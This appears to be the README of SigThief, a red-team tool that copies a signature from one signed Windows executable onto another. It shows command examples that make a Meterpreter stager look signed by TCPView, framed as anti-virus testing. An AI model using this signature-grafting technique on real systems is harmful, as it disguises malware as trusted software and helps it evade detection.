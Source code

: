 # SigThief

Stealing Signatures and Making One Invalid Signature at a Time (Unless you read this:
https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf)

https://twitter.com/subTee/status/912769644473098240
![alt text](https://i.imgur.com/T05kwwn.png "https://twitter.com/subTee/status/912769644473098240")

## For security professionals only...

## What is this?

I've noticed during testing against Anti-Virus over the years that each is different and each prioritize PE signatures differently, whether the signature is valid or not. There are some Anti-Virus vendors that give priority to certain certificate authorities without checking that the signature is actually valid, and there are those that just check to see that the certTable is populated with some value. It's a mess.

So I'm releasing this tool to let you quickly do your testing and feel free to report it to vendors or not. 

In short it will rip a signature off a signed PE file and append it to another one, fixing up the certificate table to sign the file. 

Of course it's **not a valid signature** and that's the point!

I look forward to hearing about your results!


## How to use

### Usage
```
Usage: sigthief.py [options]

Options:
  -h, --help            show this help message and exit
  -i FILE, --file=FILE  input file
  -r, --rip             rip signature off inputfile
  -a, --add             add signautre to targetfile
  -o OUTPUTFILE, --output=OUTPUTFILE
                        output file
  -s SIGFILE, --sig=SIGFILE
                        binary signature from disk
  -t TARGETFILE, --target=TARGETFILE
                        file to append signature too
  -c, --checksig        file to check if signed; does not verify signature
  -T, --truncate        truncate signature (i.e. remove sig)
```

### Take a Signature from a binary and add it to another binary
```
$ ./sigthief.py -i tcpview.exe -t x86_meterpreter_stager.exe -o /tmp/msftesting_tcpview.exe 
Output file: /tmp/msftesting_tcpview.exe
Signature appended. 
FIN.
```

### Save Signature to disk for use later
```
$ ./sigthief.py -i tcpview.exe -r                                                        
Ripping signature to file!
Output file: tcpview.exe_sig
Signature ripped. 
FIN.

```

### Use the ripped signature
```
$ ./sigthief.py -s tcpview.exe_sig -t x86_meterpreter_stager.exe                               
Output file: x86_meterpreter_stager.exe_signed
Signature appended. 
FIN.

```

### Truncate (remove) signature
This has really interesting results actually, can help you find AVs that value Signatures over functionality of code. Unsign putty.exe ;)

```
$ ./sigthief.py -i tcpview.exe -T    
Inputfile is signed!
Output file: tcpview.exe_nosig
Overwriting certificate table pointer and truncating binary
Signature removed. 
FIN.
```

### Check if there is a signature (does not check validity)
```
$ ./sigthief.py -i tcpview.exe -c
Inputfile is signed!
```
